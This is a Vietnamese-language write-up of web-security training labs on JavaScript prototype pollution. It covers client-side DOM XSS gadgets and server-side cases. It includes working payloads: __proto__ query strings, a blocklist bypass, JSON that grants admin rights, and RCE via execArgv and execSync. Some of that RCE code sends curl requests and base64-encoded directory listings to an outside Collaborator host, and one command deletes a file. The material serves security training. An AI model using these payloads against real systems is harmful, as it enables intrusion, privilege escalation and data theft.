

# Prototype Pollution

# Tổng quan

### Giới thiệu

Prototype Pollution là một lỗ hổng bảo mật trong JavaScript. Lỗ hổng này cho phép attacker sửa prototype của các đối tượng , dẫn đến các hành vi không mong muốn.

### Rootcause

Trong JavaScript, mọi đối tượng đều kế thừa từ `Object.prototype`. 

Lỗ hổng xảy ra khi ứng dụng không kiểm soát dữ liệu đầu vào từ người dùng. Nếu attacker có thể ghi đè lên `Object.prototype`, thì tất cả các đối tượng được tạo ra sau đó đều bị ảnh hưởng.

### Ảnh hưởng

- Giả mạo quyền admin
- Đánh cắp thông tin nhạy cảm
- DoS
- Kết hợp với các lỗ hổng khác, tăng mức độ nguy hiểm nếu hệ thống không kiểm soát object.

# LAB

## Client-side

### 1. DOM XSS via client-side prototype pollution

Kiểm tra URL có thể gây prototype pollution



Mở DevTools → Console, gõ: `Object.prototype.foo`


Xác nhận có thể sửa `Object.prototype`

Mở tab Sources, kiểm tra file `searchLogger.js`.


```jsx
let config = {params: deparam(new URL(location).searchParams.toString())};

if(config.transport_url) {
    let script = document.createElement('script');
    script.src = config.transport_url;
    document.body.appendChild(script);
}
```

`config` là một object được khởi tạo mới (`let config = {...}`), nhưng không có thuộc tính `transport_url` nào được khai báo trong đó.
Tuy nhiên, nếu đã pollute `Object.prototype.transport_url`, thì `config.transport_url` sẽ kế thừa giá trị từ đó.
Khi `if(config.transport_url)` đúng, đoạn code phía dưới sẽ thực thi. 
⇒  Điều khiển được `src` của một thẻ `<script>` được inject vào DOM
Kiểm chứng


### 2. DOM XSS via an alternative prototype pollution vector


Xác nhận có thể sửa `Object.prototype`

Check Source

```jsx
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

Object manager không có thuộc tính `sequence`, nên nếu attacker pollute prototype với `sequence`, nó sẽ được kế thừa.
`manager.sequence` được truyền vào hàm `eval()`

Thử với payload: `/?__proto__.sequence=alert(1)`

Payload được inject thành công, nhưng bị `+1` thành `alert(1)1` -> sai cú pháp JS.

Fix bằng cách thêm dấu `-` , tạo ra một biểu thức hợp lệ về mặt cú pháp để `eval()` có thể thực thi được.


### 3. Client-side prototype pollution via flawed sanitization

Xem code trong `searchLoggerFiltered.js` thấy có function `sanitizeKey()` dùng blocklist chặn `__proto__`, `constructor`, `prototype`

```jsx
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Nhưng không áp dụng đệ quy

Dùng `/?__pro__proto__to__[foo]=bar` để bypass


Các bước tiếp theo như bài trước
Payload: `/?pro__proto__to[transport_url]=data:,alert(1);`

### 4. Client-side prototype pollution in third-party libraries

Mở trang lab bằng Burp's Browser.

Bật DOM Invader


Trong tab DOM InvaderPhát hiện 2 vector prototype pollution từ `hash`, nhấn Scan for gadgets.


Gadget này lấy giá trị từ `hitCallback` và nhét vào `setTimeout()`, giúp ta có thể chạy code JavaScript.
Dùng Exploit trên DOM Invader


⇒ `alert(1)` chạy thành công.

### 5. Client-side prototype pollution via browser APIs


Thành công chèn property vào Object prototype.
Trong `searchLoggerConfigurable.js`, có:

```jsx
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

Đã khóa `transport_url` nhưng lại không set `value`.

Khi browser tìm `config.transport_url`, nếu không có value, nó sẽ tiếp tục truy vấn từ `Object.prototype.value`.

=> Gadget chính: `value`.

Payload: `/?proto[value]=data:,alert(1);`

Thử nghiệm


## Server-side

### 1. Privilege escalation via server-side prototype pollution

Đăng nhập tài khoản


Thử thay đổi địa chỉ


Bắt được request `POST /my-account/change-address`


Thêm payload vào JSON

```jsx
"__proto__": {
  "foo":"bar"
}
```

Gửi request, kiểm tra response:

Nếu `foo: "bar”`xuất hiện trong JSON trả về

=> Thành công prototype pollution


Nâng quyền admin

```jsx
"__proto__": {
  "isAdmin": true
}
```


### 2. Detecting server-side prototype pollution without polluted property reflection


Test giống như bài trước, lúc này server trả về JSON nhưng không phản hồi property foo.
Cố tình chỉnh JSON request thành sai cú pháp ( xóa dấu `,`)


JSON body chứa `"status": 400`
Xác nhận server có dùng property `status` từ object để trả về thông tin lỗi.
Gửi lại JSON hợp lệ, chỉnh payload thành: 

```jsx
"__proto__": {
    "status": 555
}
```

Tiếp theo gửi lại request với lỗi cú pháp


JSON lỗi server trả về  `"status": 555`

### 3. Bypassing flawed input filters for server-side prototype pollution


Quan sát thấy JSON trả về không bị ảnh hưởng
tiếp tục chỉnh payload để thử thông qua `constructor` property thay vì `__proto__`:

```jsx
"constructor": {
    "prototype": {
        "foo":"bar"
    }
}
```


⇒ Thành công

Payload nâng quyền admin:

```jsx
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```

### 4. Remote code execution via server-side prototype pollution


⇒ Thêm được property `foo` vào prototype ⇒ Source Prototype Pollution

Vào Admin Panel ⇒ Run maintenance jobs.
Các tác vụ này dọn dẹp cơ sở dữ liệu và hệ thống tệp, đây là dấu hiệu rằng ứng dụng có thể đang chạy lệnh hệ thống 

`child_process.fork()` tạo tiến trình con và sử dụng `execArgv` để truyền tham số dòng lệnh. Nếu `execArgv` bị kiểm soát, kẻ tấn công có thể chèn `--eval` để chạy mã JavaScript.
Thử sửa `Object.prototype` để chèn thuộc tính `execArgv`, với tham số `--eval` để gọi `execSync()` 

```jsx
"__proto__": {
  "execArgv": [
    "--eval=require('child_process').execSync('curl https://26690g3azx5vuy03rjwh4o69l0rrfh36.oastify.com')"
  ]
}
```

Gửi request, sau đó vào Admin Panel và chạy lại maintenance jobs.


Burp Collaborator nhận được nhiều yêu cầu HTTP, xác nhận rằng lệnh curl đã được thực thi ⇒ RCE

Thay lệnh curl bằng `rm /home/carlos/morale.txt` để hoàn thành.

### 5. Exfiltrating sensitive data via server-side prototype pollution


⇒ Thêm được property `foo` vào prototype ⇒ Source Prototype Pollution

Vào Admin Panel ⇒ Run maintenance jobs.
Các tác vụ này dọn dẹp cơ sở dữ liệu và hệ thống tệp, đây là dấu hiệu rằng ứng dụng có thể đang chạy lệnh hệ thống.

Thay thế proto bằng một payload nhắm vào `child_process.execSync()`, sử dụng `vim` làm shell và một lệnh `curl` để kiểm tra RCE:

```jsx
"__proto__": {
    "shell": "vim",
    "input": ":! curl https://abcdef.oastify.com\n"
  }
```


Burp Collaborator nhận được nhiều yêu cầu HTTP, xác nhận rằng lệnh curl đã được thực thi. ⇒ RCE 

Liệt kê thư mục `/home/carlos`

```jsx
"__proto__": {
    "shell": "vim",
    "input": ":! ls /home/carlos | base64 | curl -d @- https://abcdef.oastify.com\n"
  }
```

Mã hóa kết quả thành Base64 để gửi an toàn qua HTTP.


Đọc `/home/carlost/secret` để hoàn thành